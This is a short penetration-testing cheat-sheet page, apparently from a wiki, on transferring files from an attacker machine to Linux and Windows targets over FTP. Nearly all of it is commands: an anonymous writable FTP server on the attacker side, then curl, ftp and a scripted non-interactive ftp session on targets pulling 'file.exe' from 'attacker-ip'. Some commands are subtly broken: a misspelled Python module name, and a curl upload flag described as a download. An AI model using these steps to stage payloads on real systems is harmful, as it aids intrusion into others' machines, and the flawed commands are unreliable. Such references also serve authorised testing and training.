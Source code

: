 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# FTP

### Linux Attacker

Open a FTP server on the attacking machine so that the file to be transferred can be downloaded via the target machine.

```bash
# Using Python:
pip install pyftpdlib
python -m pyftplib -p 21 --write
```

### Linux Target

Download the file that is on the attacking machine.

```bash
# Using Curl:
curl -T file.exe ftp://attacker-ip

# Using FTP:
ftp attacker-ip
>anonymous
>anonymous
>get file.exe
```

### Windows Target

Download the file that is on the attacking machine.

```powershell
# Using FTP:
ftp attacker-ip
>anonymous
>anonymous
>get file.exe

# Using FTP with non-interactive shell:
echo open attacker-ip > ftp.txt
echo USER anonymous >> ftp.txt
echo PASS anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET file.exe >> ftp.txt
echo QUIT >> ftp.txt

ftp -v -n -s:ftp.txt
```
